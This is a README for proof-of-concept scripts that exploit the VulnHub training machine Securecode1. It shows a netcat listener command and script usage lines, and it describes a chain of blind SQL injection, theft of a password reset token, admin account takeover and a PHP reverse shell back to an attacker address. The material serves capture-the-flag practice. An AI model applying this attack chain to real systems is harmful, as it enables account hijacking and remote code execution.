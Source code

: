 # securecode1
PoC for VulnHub machine Securecode1

Vulnerable machine author: sud0root

Link to vulernable VM: https://www.vulnhub.com/entry/securecode-1,651/

start a NetCat listener with:
 nc -nlvp <IP> <port>

usage: python3 poc.py -t \<target\> -p \<password to set\> -i \<attacker IP\> -pt \<attacker port\>
 
 Explaination of script below contains spoilers, read/use only if stuck.
  
This script leverages boolean based blind SQL Injection to enumerate the adminstrative user on the "HackShop" web application on the VulnHub machine Securecode1. It then requests a password reset token for the adminstrative user. 
  
The blind SQLi is then used again to enumerate the token. The token is then passed to reset the administrative user account's password with the password passed with the -p flag.
  
The script then logs in and pulls the first flag.
 
A php reverse shell is then uploaded and executed connecting to the IP and port suppled by the -i and -pt options.

 version 1 poc.py is hardcode to utilize proxy at 127.0.0.1:8080
 
poc2ab.py is a standalone auth bypass that will use SQLi to pull the admin username, request a reset token, pull token with SQLi, reset the password, login, and pull the first flag. It is an imporvement on the auth bypass in poc.py leveraging a bit shift instead of sequential bruteforce drastically increasing the speed.
 
 poc2.py is auth bypass using bit shift plus RCE
 
 usage:
 
 python3 poc2ab.py -t <target> -p <password to set>
 
 python3 poc2.py -t <target> -p <password to set> -i <Attacker IP> -pt <Attacker port>
 
 -d or --debug can be added to utilize Burp or ZAP proxies runnin on 127.0.0.1:8080
  

